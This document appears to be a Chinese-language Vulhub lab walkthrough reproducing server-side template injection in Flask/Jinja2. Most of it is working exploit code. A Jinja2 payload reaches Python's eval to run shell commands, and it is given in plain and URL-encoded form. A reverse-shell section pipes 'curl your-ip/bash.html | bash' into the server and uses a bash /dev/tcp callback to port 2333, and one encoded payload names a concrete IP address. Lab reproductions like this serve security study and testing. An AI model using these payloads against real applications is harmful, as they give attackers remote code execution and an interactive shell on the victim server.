


Flask Jinja2 服务端模板注入漏洞¶
漏洞描述¶
参考阅读：
- https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf
- http://rickgray.me/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates
环境搭建¶
Vulhub编译及运行测试环境：
docker-compose build
docker-compose up -d
访问http://your-ip:8000/?name={{233*233}}，得到54289，说明SSTI漏洞存在。

漏洞复现¶
获取eval函数并执行任意python代码的POC：
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{% for b in c.__init__.__globals__.values() %}
{% if b.__class__ == {}.__class__ %}
{% if 'eval' in b.keys() %}
{{ b['eval']('__import__("os").popen("id").read()') }}
{% endif %}
{% endif %}
{% endfor %}
{% endif %}
{% endfor %}
URL编码，添加以下Payload得到执行结果：
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D

反弹shell¶
通过curl的方式反弹shell，bash.html文件内容：
/bin/bash -i >& /dev/tcp/your-ip/2333 0>&1
构造Payload：
http://flask-ip:8000/?name={% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{% for b in c.__init__.__globals__.values() %}
{% if b.__class__ == {}.__class__ %}
{% if 'eval' in b.keys() %}
{{ b['eval']('__import__("os").popen("curl your-ip/bash.html | bash").read()') }}
{% endif %}
{% endif %}
{% endfor %}
{% endif %}
{% endfor %}
URL编码后：
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22curl%20101.42.237.61/bash.html%20|%20bash%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
浏览器访问，监听2333端口，成功接收反弹shell。